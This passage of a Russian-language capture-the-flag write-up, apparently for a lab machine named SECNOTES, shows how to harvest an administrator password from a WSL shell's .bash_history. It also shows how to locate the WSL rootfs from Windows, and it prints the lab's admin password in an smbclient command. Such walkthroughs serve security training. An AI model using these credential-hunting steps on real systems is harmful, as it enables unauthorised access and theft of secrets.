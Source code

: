 ```text
root@SECNOTES:~# cat .bash_history
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
less .bash_history
```

Видим админские креды :tada:

Судя по содержимому истории команд, админ монитровал локальную файловую систему, а затем даже сделал попытку почистить за собой, вот только `.bash_history` записывается при завершении сессии. Таким образом, он очистил историю *до* этого момента, а все, что было прописано в этот раз, осталось.

## 2-й способ: rootfs
Файловая система `rootfs` линуксовой подсистемы живет где-то в недрах директории `AppData`, поэтому ее расположение можно найти способом аналогичным тому, как мы искали `bash.exe`:
```text
C:\Users\tyler\Desktop>where /R C:\ .bash_history
where /R C:\ .bash_history
C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root\.bash_history

C:\Users\tyler\Desktop>cd C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs
cd C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs
```

```text
C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9CDD-BADA

 Directory of C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs

06/21/2018  06:03 PM    <DIR>          .
06/21/2018  06:03 PM    <DIR>          ..
06/21/2018  06:03 PM    <DIR>          bin
06/21/2018  06:00 PM    <DIR>          boot
06/21/2018  06:00 PM    <DIR>          dev
06/22/2018  03:00 AM    <DIR>          etc
06/21/2018  06:00 PM    <DIR>          home
03/21/2019  12:24 PM            87,944 init
06/21/2018  06:00 PM    <DIR>          lib
```